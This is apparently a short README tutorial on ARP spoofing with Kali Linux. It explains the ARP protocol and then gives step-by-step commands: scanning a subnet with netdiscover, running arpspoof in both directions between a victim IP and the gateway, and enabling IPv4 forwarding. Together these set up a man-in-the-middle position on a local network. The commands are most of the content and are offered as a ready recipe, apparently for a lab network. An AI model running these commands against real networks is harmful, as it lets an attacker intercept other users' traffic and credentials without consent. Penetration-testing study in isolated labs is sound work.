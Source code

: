 # Kali Linux ARP Spoofing

In computer networking, [ARP spoofing]('https://en.wikipedia.org/wiki/ARP_spoofing'), ARP cache poisoning, or ARP poison routing, is a technique by which an attacker sends (spoofed) Address Resolution Protocol (ARP) messages onto a local area network.


## ARP
The [Address Resolution Protocol](('https://en.wikipedia.org/wiki/Address_Resolution_Protocol')) (ARP) is a communication protocol used for discovering the link layer address, such as a MAC address, associated with a given internet layer address, typically an IPv4 address. 


Check ARP on Linux/Mac/Win.

```sh
arp -a
```

## Find Default Gateway
Check your default gateway:
```sh
ip route
```

## Scan the Network

-r is for range

```sh
netdiscover -r 10.0.2.0/24
```

## ARP Spoofing

```sh
arpspoof -i INTERFACE -t VICTIM_IP GATEWAY_IP

arpspoof -i INTERFACE -t GATEWAY_IP VICTIM_IP

```

```sh
arpspoof -i eth0 -t 10.0.2.15 10.0.2.1
```

```sh
arpspoof -i eth0 -t 10.0.2.1 10.0.2.15
```

Make sure port forwarding is enabled, as described below.

### Check port forwarding
```sh
sysctl net.ipv4.ip_forward
```

### Enable port forwarding
```sh
sysctl -w net.ipv4.ip_forward=1
```

OR, if that doesn't work:

```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```
